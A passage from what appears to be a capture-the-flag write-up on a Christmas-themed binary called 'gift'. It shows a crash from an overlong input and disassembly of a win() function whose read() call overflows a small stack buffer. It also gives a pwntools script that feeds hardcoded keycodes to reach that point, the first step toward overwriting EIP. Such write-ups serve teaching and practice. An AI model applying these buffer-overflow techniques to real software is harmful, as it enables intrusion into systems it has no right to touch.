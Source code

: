 ```
Enter keycode 14: 1
Enter keycode 15: 6084938
[ACCESS GRANTED]
[XMAS SECURITY PROTOCOL ACTIVATED] - Enter new keycode: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./gift

```

the win() function just prints the message and reads some data from stdin into a buffer of i-dont-know-how-many bytes (because my assembly is bad), but which is apprently subject to a buffer overflow...

```x86asm
.text:0804871F                 lea     eax, (a032maccessGran - 804D000h)[ebx] ; "[\x1B[0;32mACCESS GRANTED\x1B[0m]"
.text:08048725                 push    eax
.text:08048726                 call    _puts
.text:0804872B                 add     esp, 10h
.text:0804872E                 sub     esp, 0Ch
.text:08048731                 lea     eax, (a032mxmasSecuri - 804D000h)[ebx] ; "[\x1B[0;32mXMAS SECURITY PROTOCOL ACTIV"...
.text:08048737                 push    eax
.text:08048738                 call    _printf
.text:0804873D                 add     esp, 10h
.text:08048740                 sub     esp, 4
.text:08048743                 push    320h
.text:08048748                 lea     eax, [ebp+var_C]
.text:0804874B                 push    eax
.text:0804874C                 push    0
.text:0804874E                 call    _read			; <- here
.text:08048753                 add     esp, 10h
.text:08048756                 nop
.text:08048757                 mov     ebx, [ebp+var_4]
.text:0804875A                 leave
```


## Exploiting the win function (Part 1)

we can use the following piece of code to find how many bytes we need to overwrite EIP [exploit_v1.py](exploit_v1.py):


```python
% cat exploit_v1.py
#!/usr/bin/python

from pwn import *

keycodes = [6419804, 7048451, 1, 5981939, 1809240, 3891630, 1, 2807850, 4265200, 4512418, 1, 5061300, 1303193, 7616025, 1, 6084938]


elf = context.binary = ELF("./gift")
#context.log_level = 'debug'

io = process(elf.path)
io.recvuntil(" > ")
io.sendline("666")

for x in range(16):
    io.recvuntil("Enter keycode %d: "%x)
    io.sendline(str(keycodes[x]))

print io.recv(4096)

```